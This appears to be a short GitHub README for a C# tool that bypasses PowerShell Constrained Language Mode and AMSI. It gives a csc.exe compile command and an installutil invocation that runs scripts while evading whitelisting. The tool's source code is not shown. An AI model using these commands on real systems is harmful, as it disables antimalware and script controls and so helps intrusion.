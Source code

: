 # powershellveryless
== Constrained Language Mode + AMSI bypass all in one ==<br /><br />
Quick & dirty (and very simple) CL + AMSI bypass using C#<br />
Compile it (https://decoder.cloud/2017/11/02/we-dont-need-powershell-exe/): 
```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /reference: C:\Windows\Microsoft.NET\assembly\GAC_MSIL\System.Management.Automation\v4.0_3.0.0.0__31bf3856ad364e35\system.management.automation.dll 
/out:c:\setup\powershellveryless.exe c:\scripts\powershellveryless.cs
```
<br />
 Launch it: powerhsellveryless.exe (your_ps1_sript)
 <br />
powershellveryless_2.cs: "installutil" version <br />
```

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil  /logfile= /LogToConsole=false /ScriptName=(ps1) /U (exefile)

```
